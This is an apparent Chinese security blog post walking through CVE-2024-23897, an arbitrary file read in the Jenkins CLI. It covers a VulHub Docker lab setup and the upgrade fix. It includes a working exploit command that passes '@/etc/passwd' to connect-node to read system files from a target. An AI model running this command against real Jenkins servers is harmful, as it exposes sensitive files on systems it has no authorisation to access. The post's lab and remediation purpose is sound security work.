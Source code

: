 #  CVE-2024-23897 Jenkins CLI接口 任意文件读取漏洞  
 海狼风暴团队   2025-06-12 04:06  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞简述  
  
在 Jenkins 的 CLI 接口  
（jenkins-cli.jar）中，攻击者可通过在命令行参数中插入以“@”开头的路径，使 Jenkins 读取指定文件内容，进而实现任意文件读取。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**受影响版本**  
  
  
Jenkins ≤2.441，LTS ≤2.426.2  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
知识拓展  
  
  
Jenkins是一款由Java编写的开源的持续集成工具。主要用于实现持续集成和持续交付，帮助开发团队自动化构建、测试和部署软件。  
  
  
**漏洞环境搭建**  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
**漏洞环境搭建**  
  
1.克隆 VulHub 仓库到本地  
  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibATRa7yqFTQTeYAWaz3icPicvicfrnSvjm1vURtxiapHR8eSb2U52RyXBhA/640?wx_fmt=png&from=appmsg "")  
  
  
2. 进入  
到漏洞环境目  
录  
```
cd vulhub/jenkins/CVE-2024-23897
docker-compose up -d
```  
  
  
3.靶场搭建成功  
  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibx2uXgZTaGXCfSRZopb9kGJp0J8kNJohmKFLRlklC8mGsEmLtIFNbBLGBh933SQ6qOwoKNYgp0Vw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞验证**  
  
1.访问8080端口  
  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibx2uXgZTaGXCfSRZopb9kGd59TWq9kjnOhcwz0vWFofgLjhCKvXNqRDH6lHrwbxtKoDKTYAlSMtQ/640?wx_fmt=png&from=appmsg "")  
  
2.下载  
jenkins-cli.jar文件  
。  
```
http://localhost:8080/jnlpJars/jenkins-cli.jar
```  
  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibx2uXgZTaGXCfSRZopb9kGLEE2So0ssvVtp59srhE7dN1J2hVu7bwyEYUMtx2Q4JuzISGvibxKrnA/640?wx_fmt=png&from=appmsg "")  
  
3.可直接使用connect-node命令读取完整文件内容：  
```
java -jar jenkins-cli.jar -s http://192.168.23.17:8080/ -http connect-node "@/etc/passwd"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibl7Efw4BCqCHuzwHEqySlGibB10XQBX0LugWt9LQA0SWWSu0txt2UGr0VTic6H3H7QDsZ1B5ic4btiag/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**修复建议**  
  
  
1.升级版本；  
  
  
拉取   
jenkins:2.442版本  
```
docker pull jenkins/jenkins:2.442
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibl7Efw4BCqCHuzwHEqySlGsztmElWJW8nIHanQiacBbdvial2BjohyqXa9kLuYBGedyeBJxpX5rfAA/640?wx_fmt=png&from=appmsg "")  
  
  
  
运行环境：  
```
docker run -d-p8080:8080 -p50000:50000 \
-v jenkins_home:/var/jenkins_home \
jenkins/jenkins:2.442
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibl7Efw4BCqCHuzwHEqySlGflUm3as3QKFHUFtGvRuCIOlB6yl14N621EyNZaD6eGURvQaTPxYTibQ/640?wx_fmt=png&from=appmsg "")  
  
  
再次攻击，可见防御成功。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibl7Efw4BCqCHuzwHEqySlG4FkewdfH1fJtz4PypQtOCQbkjRWQLeGZu2oxIk2UpHKoZSKzpsxFaQ/640?wx_fmt=png&from=appmsg "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4b8FiazcPnWoUwjVwhSmc8lNeib3HjMTM7t0fhtMK2z1Ascmib43KO9ibKlA/640?wx_fmt=png&from=appmsg "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4brzc4jKudCwzrLBkS3hDozqGufm3H1Za9VXuNGjGwscBhYnuyxAc05g/640?wx_fmt=jpeg&from=appmsg "undefined")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4b8FiazcPnWoUwjVwhSmc8lNeib3HjMTM7t0fhtMK2z1Ascmib43KO9ibKlA/640?wx_fmt=png&from=appmsg "")  
  
**- 扫码立即关注 -**  
  
                         
  
